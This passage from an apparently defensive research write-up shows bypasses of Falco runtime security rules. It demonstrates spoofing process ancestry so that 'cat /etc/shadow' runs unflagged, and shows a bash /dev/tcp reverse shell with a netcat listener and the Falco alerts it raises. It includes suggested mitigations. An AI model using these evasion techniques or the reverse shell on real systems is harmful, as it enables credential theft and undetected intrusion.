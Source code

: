 ```
- macro: run_by_google_accounts_daemon
  condition: >
    (proc.aname[1] startswith google_accounts or
     proc.aname[2] startswith google_accounts or
     proc.aname[3] startswith google_accounts)
```

To demonstrate the usage of the utility, for the first time we will use `sshayb/fuber:latest` - an ubuntu-based [image](Dockerfile) that was specifically built to contain necessary tools and utilities for this study[^2]:

```
[Container]
$ sudo docker run -it sshayb/fuber:latest
root@cc2c6682b811:/tmp# ./fubers/fuber-fakeparents "cat /etc/shadow" google_accounts 3
root:*:18831:0:99999:7:::
...
-----
[Falco]
SILENCE
```

In this example, fuber-fakeparents utility renames the current process to "google_accounts" and forks the process 3 times before calling _cat_. The impact of this bypass is significant - as of v0.30, there are 50 instances of _pname_ and 45 instances of _aname[*]_ usage in the conditional context.

<ins>Rules bypassed:</ins> All rules that rely on _proc.pname_ and _proc.aname_ comparison.

<ins>Suggested mitigations:</ins> Similar to previous bypass - less reliance on process naming.

### <a name="revshell"></a>Bypass reverse shell detection

Initiation of a reverse shell connection is a crucial ability for successful attack. Falco default ruleset contains several rules that make reverse shell detectable by default. Let us examine how Falco detects the typical reverse shell attempt initiated from within the compromised pod / container:
```
[Container]
$ docker run --rm -it debian:10.2 bash
root@e2305ecd8227:/# /bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
-----
[Host]
$ sudo nc -nlvp 443
[sudo] password for tutorial: 
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:53782.
root@e2305ecd8227:/#
-----
[Falco]
02:14:04.303361864: Notice Known system binary sent/received network traffic (user=root user_loginuid=-1 command=bash -c bash -i >& /dev/tcp/172.17.0.1/443 0>&1 connection=172.17.0.2:53782->172.17.0.1:443 container_id=e2305ecd8227 image=debian) k8s.ns=<NA> k8s.pod=<NA> container=e2305ecd8227 k8s.ns=<NA> k8s.pod=<NA> container=e2305ecd8227
02:14:04.303403479: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s.ns=<NA> k8s.pod=<NA> container=e2305ecd8227 process=bash parent=bash cmdline=bash -c bash -i >& /dev/tcp/172.17.0.1/443 0>&1 terminal=34816 container_id=e2305ecd8227 image=debian fd.name=172.17.0.2:53782->172.17.0.1:443 fd.num=1 fd.type=ipv4 fd.sip=172.17.0.1) k8s.ns=<NA> k8s.pod=<NA> container=e2305ecd8227
02:14:04.303405119: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s.ns=<NA> k8s.pod=<NA> container=e2305ecd8227 process=bash parent=bash cmdline=bash -c bash -i >& /dev/tcp/172.17.0.1/443 0>&1 terminal=34816 container_id=e2305ecd8227 image=debian fd.name=172.17.0.2:53782->172.17.0.1:443 fd.num=1 fd.type=ipv4 fd.sip=172.17.0.1) k8s.ns=<NA> k8s.pod=<NA> container=e2305ecd8227
```

[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS